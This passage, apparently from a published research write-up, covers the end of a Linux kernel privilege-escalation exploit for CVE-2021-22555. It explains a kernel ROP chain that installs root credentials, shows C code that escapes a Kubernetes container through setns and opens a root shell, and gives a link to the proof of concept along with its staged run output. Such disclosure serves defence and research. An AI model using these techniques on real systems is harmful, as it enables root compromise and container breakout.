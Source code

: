 [Figure 11: Freed `struct pipe_buffer` reclaimed with a fake `struct pipe_buffer`]

The final stage of the exploit is to close all pipes in order to trigger the release which in turn will kick off the JOP chain. Finding JOP gadgets is hard, thus the goal is to achieve a kernel stack pivot as soon as possible in order to execute a kernel ROP chain.

#### Kernel ROP chain

We save the value of RBP at some scratchpad address in kernel so that we can later resume the execution, then we call `commit_creds(prepare_kernel_cred(NULL))` to install kernel credentials and finally we call `switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)` to switch the namespace of process 1 to the one of the *init* process. After that, we restore the value of RBP and return to resume the execution (which will immediately make `free_pipe_info()` return).

#### Escaping the container and popping a root shell

Arriving back in userland, we now have root permissions to can change mnt, pid and net namespaces to escape the container and break out of the kubernetes pod. Ultimately, we pop a root shell.

```c
  setns(open("/proc/1/ns/mnt", O_RDONLY), 0);
  setns(open("/proc/1/ns/pid", O_RDONLY), 0);
  setns(open("/proc/1/ns/net", O_RDONLY), 0);

  char *args[] = {"/bin/bash", "-i", NULL};
  execve(args[0], args, NULL);
```

## Proof-Of-Concept

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555).

Executing it on a vulnerable machine will grant you root:

```sh
theflow@theflow:~$ gcc -m32 -static -o exploit exploit.c
theflow@theflow:~$ ./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: ffc
[+] real_idx: fc4

[+] STAGE 2: SMAP bypass
[*] Freeing real secondary message...
[*] Spraying fake secondary messages...
[*] Leaking adjacent secondary message...
[+] kheap_addr: ffff91a49cb7f000
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Leaking primary message...
[+] kheap_addr: ffff91a49c7a0000

[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
```
